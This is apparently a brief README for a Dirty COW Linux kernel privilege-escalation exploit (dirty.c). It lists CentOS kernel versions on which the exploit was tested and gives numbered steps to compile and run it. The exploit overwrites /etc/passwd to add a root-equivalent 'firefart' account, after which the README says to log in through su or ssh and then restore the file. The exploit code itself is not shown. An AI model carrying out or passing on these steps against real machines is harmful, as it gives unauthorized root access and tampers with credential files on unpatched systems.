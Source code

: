 ### Tested OS

| OS Ver | Kernel Ver | Result |
| ----- | ----- | ----- |
| CentOS release 6.6 (Final) | Linux 2.6.32-504.el6.x86_64 | :+1: | 
| CentOS release 5.9 (Final) | Linux 2.6.18-348.el5 | :x: |



### Uasge
1. `gcc -pthread dirty.c -o dirty -lcrypt`
2. `./dirty` or `./dirty my-new-password`
3. `su firefart` or `ssh firefart@...`
4. `mv /tmp/passwd.bak /etc/passwd`


### Others
+ https://dirtycow.ninja/
+ https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
